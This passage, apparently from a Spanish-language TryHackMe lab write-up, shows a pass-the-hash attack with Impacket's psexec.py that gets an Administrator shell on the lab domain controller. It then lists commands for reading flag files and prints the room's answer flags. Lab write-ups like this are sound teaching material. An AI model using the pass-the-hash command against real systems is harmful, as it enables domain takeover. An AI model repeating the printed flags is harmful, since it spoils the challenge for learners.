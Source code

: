 Podemos usar Pass-The-Hash para obtener una shell administrativa en el DC.


## Paso 13 — **Pass-the-Hash** y shell remota como **Administrator**

Con el **NTLM hash** del `Administrator` (obtenido en el Paso 12) hacemos PTH con Impacket.

**Comando (PTH con `psexec.py`)**
```bash
# Sustituye <NTLMHASH> por el NT hash del Administrator
psexec.py spookysec.local/Administrator@10.10.19.151 -hashes :<NTLMHASH>
```


## Paso 14 — Recopilación de **flags** desde los escritorios de los usuarios

Con la shell obtenida (Paso 13), navegamos por los perfiles y leemos los archivos de bandera en cada `Desktop`.

**Usuario `svc-admin`**
```cmd
cd C:\Users\svc-admin\Desktop
dir
type user.txt.txt
````
<img width="529" height="343" alt="bandera svc-admin" src="https://github.com/user-attachments/assets/7af154eb-3ece-431e-ba14-92136f70e40f" />

Flag
TryHackMe{K3rb3r0s_Pr3_4uth}

**Usuario `Administrator`**


```cmd
cd C:\Users\Administrator\Desktop
dir
type root.txt
```

<img width="454" height="251" alt="bandera administrador" src="https://github.com/user-attachments/assets/c766a5b8-3446-4f03-89de-d27744ec9942" />


Flag
TryHackMe{4ctiveDirectoryM4st3r}


**Usuario `backup`**

```cmd
cd C:\Users\backup\Desktop
dir
type PrivEsc.txt
```
<img width="447" height="304" alt="bandera backup" src="https://github.com/user-attachments/assets/4cc631f6-a10f-4c40-bfbd-f289de1b3331" />


Flag
TryHackMe{B4ckM3UpSc0tty!}


📌 Con esto validamos compromiso del dominio (usuario estándar de servicio, cuenta de backup con privilegios DCSync y Administrator) y la obtención de todas las banderas requeridas por la sala.





